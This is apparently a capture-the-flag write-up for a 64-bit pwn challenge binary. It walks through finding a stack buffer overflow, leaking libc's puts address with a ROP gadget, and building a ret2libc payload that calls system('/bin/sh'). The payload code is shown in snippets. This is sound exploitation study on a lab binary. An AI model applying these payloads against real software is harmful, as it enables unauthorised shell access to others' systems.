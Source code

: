 # Secret Flag

- Genre Pwn  

By examining the binary I found the followings  
```sh
file the-library
the-library: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3067a5291814bef337dafc695eee28f371370eae, not stripped
checksec the-library
[*] 'the-library'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
It was 64 bit binary and NX was enabled. So shellcode injection was not the right path.  
```sh
ldd the-library
	linux-vdso.so.1 (0x00007ffd6a1c8000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007feee0cfe000)
	/lib64/ld-linux-x86-64.so.2 (0x00007feee0ede000)
ldd the-library
	linux-vdso.so.1 (0x00007ffe4053c000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fae40077000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fae40257000)
ldd the-library
	linux-vdso.so.1 (0x00007ffeeb549000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffb33279000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffb33459000)
```
And as the ldd showed above, ASLR was enabled.  
I ran this binary first to see what it did.
```sh
./the-library 
Welcome to the library... What's your name?
TEST
Hello there: 
TEST

```
It accepted a user input and echoed back the name.  
This time I ran this with gdb to see more in depth.  

![image](https://user-images.githubusercontent.com/53568647/85946644-1f98ff00-b989-11ea-8dbc-da6bc5fcefba.png)

It crached when I input many characters as an input, so there was a possibility to cause buffer overflow to run shell.  
I sent a crafted input to find out the right buffer size. I used pattern_create and pattern_offset of gdb-peda.  

![image](https://user-images.githubusercontent.com/53568647/85946645-21fb5900-b989-11ea-94ed-5fdc73a7792e.png)

size of junk: 24 characters  

Unlike other easy challenges, there was no straight-to-win function in the binary to invoke shell. So my strategy was Return to Libc and calling system function.  
Since I did not know which address libc would be located at, I created a ROP chain to leak the address of puts.  

Since I found the address of main function, 0x0x400637, all I needed to find was ROP gadget. I searched for one pop and then return in the binary.  
```sh
rp -r 1 -f the-library | grep rdi
0x0040079f: add byte [rbp+rdi*8-0x01], bh ; call qword [rax+rax-0x02440000] ;  (1 found)
0x00400733: pop rdi ; ret  ;  (1 found)

# same results can be obtained by

r2 the-library
[0x00400550]> /R pop rdi
  0x00400733                 5f  pop rdi
  0x00400734                 c3  ret
```
gadget: 0x400733  

I got all the information required for the exploitation. Then I created exploit code next.  

## The first BoF
The first step was to leak the puts address by using ROP gadget. This main focus was placed to obtain the base address of libc.   
To do this, I used the gadget I just found in the previous step, and place the payload in this order, Gadget > puts GOT address > puts PLT address > main function.  
```sh
padding = 24
payload = b'A' * padding
payload += p64(popret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_address)
```
It printed out the address of puts then returned to main function for another BoF.  
Using this leaked address I could calcurate the base of libc, puts_address - offset of puts.

## The second BoF
I tried to use system function to call /bin/sh. To do this, I needed an address of /bin/sh in the libc.  
```sh
strings -a -tx libc.so.6| grep /bin/sh
 1b3e9a /bin/sh
```
or either in my python exploit code
```python
sh_offset = next(libc.search(b'/bin/sh\x00'))
```
The address of system could be calcurated by adding the offset to the base of libc.  
The payload would be Gadget > address of /bin/sh > address of system.  
I made a huge mistake here, not considering the alignment of the stack. In x64 archtecture, it requires the stack to be 16 bytes aligned before any call instruction. That said, the number of 'ret' needed to be odd. So I added additional 'ret' on top of this payload. 'ret' could be found in the gadget, address of gadget + 1.    
```sh
payload = b'A' * padding
payload += p64(popret+1)
payload += p64(popret)
payload += p64(sh_address)
payload += p64(sys_address)
```
Then assembled all together to get the flag.  

## Exploit
I wrote a python exploit code and successfully spawned a shell then got a flag.    

![image](https://user-images.githubusercontent.com/53568647/85946651-26c00d00-b989-11ea-9922-98763d020cbd.png)

flag{jump_1nt0_th3_l1brary}